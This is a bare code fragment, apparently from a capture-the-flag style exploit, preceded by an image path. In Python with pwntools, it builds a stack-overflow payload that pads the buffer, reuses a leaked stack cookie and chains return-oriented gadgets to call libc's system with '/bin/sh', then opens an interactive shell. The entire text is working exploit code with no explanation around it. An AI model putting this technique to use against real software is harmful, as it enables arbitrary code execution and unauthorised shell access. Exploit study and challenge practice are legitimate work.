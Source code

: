 ```python
gadgets = [
    rop.find_gadget(['pop rdi', 'ret']).address,
    next(libc.search(b"/bin/sh\x00")),
    rop.find_gadget(['ret']).address,
    libc.symbols['system']
]


payload = b"A" * 56 + p64(cookie_leak) + b"B" * 8 + b"".join(p64(gadget) for gadget in gadgets)

r.sendline(payload)

r.interactive()
```